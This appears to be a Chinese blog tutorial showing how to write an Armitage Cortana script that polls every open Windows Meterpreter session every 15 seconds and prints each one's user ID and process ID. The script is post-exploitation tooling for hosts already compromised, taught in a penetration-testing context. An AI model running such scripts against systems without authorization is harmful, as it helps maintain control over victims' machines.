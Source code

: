 ```yaml
---
layout: post
category: binghe-code-hack
title: Armitage使用Cortana实现后渗透攻击
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Armitage使用Cortana实现后渗透攻击
lock: need
---
```


# Armitage使用Cortana实现后渗透攻击

首先，我们创建一个后渗透脚本heartbeat.cna

内容如下:

```
on heartbeat_15s{
    local('$sid');
    foreach $sid (session_ids()){
        if(-iswinmeterpreter $sid && -isready $sid){
            m_cmd($sid, "getuid");
            m_cmd($sid, "getpid");
            on meterpreter_getuid{
                println(" $3 ");
            }
            on meterpreter_getpid{
                println(" $3 ");
            }
        }
    }
}
```

这个脚本中，我们使用了一个名为heartbeat_15s的函数。这个函数每隔15秒会重复执行一次。

函数local表示$sid是当前函数的一个局部变量。吓一跳foreach语句是一个队所有开放会话的循环遍历。以if开始的语句将会对每一个会话进行检查，检查内容为该会话类型是否为Windows Meterpreter控制，以及该会话是否可以进行交互并接受命令。

m_cmd函数使用$sid(会话ID)等参数和命令将命令发送给Meterpreter会话。接着，我们定义了一个meterpreter_形式的函数，意味着即将发送到Meterpreter会话的命令。这个函数将会打印sent命令的输出。

使用Cortana载入这个脚本，并对结果进行分析，如下图所示：

![img](https://img-blog.csdnimg.cn/20190128211935380.png)

成功载入并执行这段脚本之后，每隔15秒就会显示目标系统的用户ID和当前使用进程的ID。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
